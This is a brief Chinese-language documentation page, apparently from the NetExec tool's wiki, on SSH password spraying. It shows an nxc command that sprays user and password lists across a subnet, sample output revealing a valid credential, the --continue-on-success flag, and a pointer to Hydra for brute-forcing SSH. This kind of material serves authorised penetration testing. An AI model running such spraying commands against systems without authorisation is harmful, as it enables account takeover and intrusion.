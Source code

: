 # 密码喷洒攻击

### 密码喷洒攻击（不使用暴力破解）

```
#~ nxc ssh 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

预期结果：

```
SSH         127.0.0.1       22     127.0.0.1        [*] SSH-2.0-OpenSSH_8.2p1 Debian-4
SSH         127.0.0.1       22     127.0.0.1        [+] user:password
```

{% hint style="info" %}
默认情况下，nxc 会在找到一个有效登录后退出。使用 `--continue-on-success` 标志会在找到有效密码后继续喷洒。这在对大量用户列表使用单个密码进行喷洒时很有用。
{% endhint %}

你也可以使用 Kali 默认提供的 [Hydra](https://github.com/vanhauser-thc/thc-hydra) 来暴力破解 SSH 密码，它更快更好 :)

{% embed url="https://github.com/vanhauser-thc/thc-hydra" %}

